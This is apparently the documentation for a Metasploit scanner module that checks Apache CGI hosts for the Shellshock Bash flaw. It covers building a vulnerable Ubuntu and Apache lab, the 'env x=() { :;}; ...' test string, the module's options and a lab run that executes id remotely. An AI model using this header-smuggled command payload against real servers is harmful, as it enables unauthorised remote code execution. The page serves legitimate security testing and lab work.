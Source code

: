 ## Vulnerable Application

This module scans for the Shellshock vulnerability, a flaw in how the Bash shell handles external
 environment variables. This module targets CGI scripts in the Apache web server by setting
 the HTTP_USER_AGENT environment variable to a malicious function definition.

### Creating a Vulnerable Environment
To setup an Environment that the scanner can be run against, follow the below steps to install a
 vulnerable OS and Apache version.

  To ensure that you have a vulnerable version of bash:
  1. Install Ubuntu 12.04.5 LTS from ISO (available at: http://cdimage.ubuntu.com/releases/12.04/release/)
  2. log into console
  3. run
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
  4. The shell will return the below text to confirm that the environment is vulnerable
```
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
```
(NOTE: The next series of commands should be run as root or with sudo) <br>
5. Also install Apache2 from the apt repository with the following command
```
apt-get install apache2
```
  6. Enable cgi-mod in apache with the following command
```
ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
```
  7. Restart the apache service with the following command
```
service apache2 reload
```
  8. In your favorite text editor create a file (as root) in /usr/lib/cgi-bin called test.sh with the following contents
```
#!/bin/bash
printf "Content-type: text/html\n\n"
printf "Test!\n"
```
  9. Set the file to be executable with the following command
```
chmod +x /usr/lib/cgi-bin/test.sh
```

### To check if a host is vulnerable to the attack
1. run (on the host)
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
2. The shell will return the below text if the environment is vulnerable
``` 
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'   
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
```

## Verification Steps
1. Do: run `msfconsole`
2. Do: use `auxiliary/scanner/http/apache_mod_cgi_bash_env`
2. Do: set `RHOSTS [IP]`
3. Do: set `TARGETURI [URI]`
4. Do: `run`

## Options
**CMD**

This is the command that will be run by the scanner. The default setting is `/usr/bin/id`.

**CVE** 

This is the CVE that will be used to exploit the vulnerability. 
The default setting is `CVE-2014-6271` but valid options are CVE-2014-6271 or CVE-2014-6278.

**HEADER**

This is the user agent string that is sent when the module is run. The default setting is `User-Agent`.

**METHOD**

This is HTTP method used by the module.  The default setting is `GET`.

## Scenarios
### Ubuntu 12.04.5 LTS on Apache 2.2.22
  ```
msf5 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 172.16.131.134
RHOSTS => 172.16.131.134
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/test.sh
TARGETURI => /cgi-bin/test.sh
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > exploit

[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```

